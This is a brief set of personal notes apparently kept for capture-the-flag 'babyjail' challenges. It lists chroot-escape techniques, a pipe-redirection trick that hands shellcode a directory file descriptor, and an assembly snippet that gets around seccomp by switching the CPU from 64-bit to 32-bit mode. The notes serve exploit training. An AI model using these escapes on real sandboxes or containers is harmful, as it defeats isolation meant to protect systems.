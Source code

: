pwnable notes

# escape chroot
https://github.com/earthquake/chw00t
```console
- wrong setup (chroot without chdir)
    -> open("../../flag")

- can open a directory befor chroot + chdir
    -> 1. use openat then read target file
    -> 2. use linkat
    -> 3. use fchdir
    -> 4. re chroot again to escapse the old chroot
    -> 5. if no opened file? let open once then pass through pipe (check pipe trick)
```

# pipe trick
you can open a file and pass to the fd you want like this
```console
/challenge/babyjail_level8 0 < shellcode-raw 3</
```

# escape seccomp
exchange from amd64 into i386 to use difference number of 
```console
SYS_No of syscalls
    xor rsp, rsp
    mov esp, 0x1337800
    mov DWORD PTR [esp+4], 0x23
    mov DWORD PTR [esp], 0x1337080
    retf
```